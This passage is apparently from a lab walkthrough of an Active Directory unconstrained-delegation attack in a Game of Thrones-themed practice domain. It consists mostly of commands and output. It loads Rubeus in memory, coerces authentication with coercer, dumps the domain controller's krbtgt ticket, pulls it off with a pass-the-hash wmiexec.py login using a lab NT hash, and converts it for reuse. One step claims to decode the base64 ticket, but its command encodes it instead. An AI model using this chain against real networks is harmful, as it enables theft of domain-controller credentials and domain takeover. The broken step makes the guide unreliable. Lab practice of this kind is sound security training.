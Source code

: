 `$assem = [System.Reflection.Assembly]::Load($data);`

`[Rubeus.Program]::MainString("triage");`

![Pasted_image_20250113115134](https://github.com/user-attachments/assets/23e23918-8dd3-420b-9229-1865d19a2c5a)

Now force a coerce of the KingsLanding to the Winterfell:

`coercer coerce -u arya.stark -d north.sevenkingdoms.local -p Needle -t kingslanding.sevenkingdoms.local -l winterfell`

Continue some steps of the process by pressing the `c`.
![Pasted_image_20250113115734](https://github.com/user-attachments/assets/3113906a-b28e-4145-8904-80b62205f5ff)

Look at the triage again:

`[Rubeus.Program]::MainString("triage")`

And we see the `krbtgt` service from Kingslanding:

![Pasted_image_20250113115953](https://github.com/user-attachments/assets/2222fe51-3361-441d-8b35-6b9d288b3348)

Now to extract the tgt, relaunch again the coercer, do the same steps, and run the dump command in Rubeus.

`[Rubeus.Program]::MainString("dump /user:kingslanding$ /service:krbtgt /nowrap");`

![Pasted_image_20250113120149](https://github.com/user-attachments/assets/037ac6fc-5dad-49ca-9cb0-0acc921b27fe)

Save this to a file, and export it to the Kali Machine.

I did this by connecting via `wmiexec.py`:

`wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8 eddard.stark@10.4.10.11`

Going to the directory where the file was saved and using the `lget` to retrieve it.

Afterwards, open it with vim, and add this in order to delete the whitespaces:

`:%s/\s//g`

The ticket is base64 encoded, so decode it and save to a kirbi file

`cat tgt.txt|base64 > ticket.kirbi`

Convert it to `ccache` file by using the ticketconverter.py:

`ticketconverter.py ticket.kirbi ticket.ccache`

Export it:

`export KRB5CCNAME=/home/kali/Documents/delegations/Coercer/coercer/ticket.ccache`

We see that the ticket is in the `klist` now:

```bash
Ticket cache: FILE:/home/kali/Documents/delegations/Coercer/coercer/ticket.ccache
Default principal: KINGSLANDING$@SEVENKINGDOMS.LOCAL

Valid starting       Expires              Service principal
01/13/2025 14:13:48  01/14/2025 00:13:48  krbtgt/SEVENKINGDOMS.LOCAL@SEVENKINGDOMS.LOCAL
	renew until 01/17/2025 19:38:50
```
